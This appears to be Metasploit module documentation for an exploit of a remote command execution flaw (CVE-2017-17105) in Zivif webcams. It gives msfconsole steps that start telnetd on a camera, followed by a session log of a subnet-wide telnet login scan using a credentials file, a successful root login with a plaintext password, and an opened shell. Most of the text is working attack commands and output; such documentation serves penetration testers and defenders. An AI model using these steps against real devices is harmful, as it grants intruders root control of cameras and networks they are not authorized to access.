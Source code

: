 ## Description


  This module exploits a remote command execution vulnerability in Zivif webcams.  This is known to impact versions prior to and including v2.3.4.2103.  Exploit was reported in CVE-2017-17105.  

  This module has been tested successfully on version v2.3.4.2103 and V4.7.4.2121.

## Vulnerable Application

  Unfortunately a virtual copy of this camera is not available.  


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/zivif_ipcheck_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set PAYLOAD payload/cmd/unix/generic`
  5. Do: `set CMD telnetd`
  6. Do: `exploit`
  7. Port 23 will now be open on the target


## Scenarios


  ```
  msf5 > use exploit/unix/http/zivif_ipcheck_exec
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set rhost 192.168.0.35
  rhost => 192.168.0.35
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set PAYLOAD payload/cmd/unix/generic
  PAYLOAD => cmd/unix/generic
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set CMD telenetd
  CMD => telenetd
  msf5 exploit(unix/http/zivif_ipcheck_exec) > exploit 

  [*] Sending request
  [+] Command sent successfully
  [*] Exploit completed, but no session was created.
  msf5 exploit(unix/http/zivif_ipcheck_exec) > 
  msf5 exploit(unix/http/zivif_ipcheck_exec) > back
  msf5 > use auxiliary/scanner/telnet/telnet_login
  msf5 auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.0.0/24
  RHOSTS => 192.168.0.0/24
  msf5 auxiliary(scanner/telnet/telnet_login) > set USERPASS_FILE /root/creds
  USERPASS_FILE => /root/creds
  msf5 auxiliary(scanner/telnet/telnet_login) > set threads 10
  threads => 10
  msf5 auxiliary(scanner/telnet/telnet_login) > exploit 

  [!] 192.168.0.34:23          - No active DB -- Credential data will not be saved!
  [+] 192.168.0.34:23          - 192.168.0.34:23 - Login Successful: root:cat1029
  [*] 192.168.0.34:23          - Attempting to start session 192.168.0.34:23 with root:cat1029
  [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.0.34:23) at 2020-06-15 19:47:14 +0000

  [-] 192.168.0.34:23          - 192.168.0.34:23 - LOGIN FAILED: admin:cat1029 (Incorrect: )
  [*] 192.168.0.34:23          - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/telnet/telnet_login) > 
  msf5 auxiliary(scanner/telnet/telnet_login) > sessions 

  Active sessions
  ===============

    Id  Name  Type   Information                         Connection
    --  ----  ----   -----------                         ----------
    1         shell  TELNET root:cat1029 (192.168.0.34:23)  0.0.0.0:0 -> 192.168.0.34:23 (192.168.0.34)

  msf5 auxiliary(scanner/telnet/telnet_login) > 


  ```



